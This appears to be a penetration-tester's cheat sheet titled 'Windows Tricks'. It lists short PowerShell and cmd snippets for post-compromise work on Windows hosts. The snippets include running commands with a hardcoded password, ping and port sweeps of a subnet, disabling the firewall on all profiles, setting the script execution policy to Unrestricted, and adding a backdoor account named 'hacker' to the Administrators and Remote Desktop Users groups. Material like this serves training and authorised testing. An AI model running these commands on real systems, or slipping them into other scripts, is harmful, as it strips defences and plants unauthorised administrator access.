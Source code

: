 ```yaml
---
icon: code-square
---
```


# Windows Tricks

## Run command as User (with creds)

```powershell
$pass = ConvertTo-SecureString "aliceishere" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("disco\\Alice", $pass)

Invoke-Command -ComputerName disco -Credential $cred -ScriptBlock {whoami}
```

## List running process with args

```powershell
WMIC path win32_process get Caption,Processid,Commandline
```

## Scan for hosts and open ports in subnet

```bash
# Scan for Hosts in Subnet
PS > 1..254 | ForEach-Object {Test-Connection -ComputerName "172.16.2.$_" -Count 1 -ErrorAction SilentlyContinue}

# Scan for open Ports
PS > 1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("172.16.2.101",$)) "Port $ is open!"} 2>$null
```

## **PowerShell**

```powershell
# **PowerShell Directory**
c:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe

# FIX THE VARIABLE PATH
set PATH=%SystemRoot%\system32;%SystemRoot%;
```

## Search for files

```powershell
Get-Childitem –Path C:\ -Include *filetosearch* -Recurse -ErrorAction SilentlyContinue
```

## Firewall Disable

```powershell
NetSh Advfirewall set allprofiles state off
```

## **Can not run scripts?** Enable it!

```powershell
Set-ExecutionPolicy Unrestricted
Set-ExecutionPolicy Unrestricted -Scope CurrentUser
```

## Add a RDP user

```powershell
net user hacker hacker123 /add
net localgroup Administrators hacker /add
net localgroup "Remote Desktop Users" hacker /ADD
```
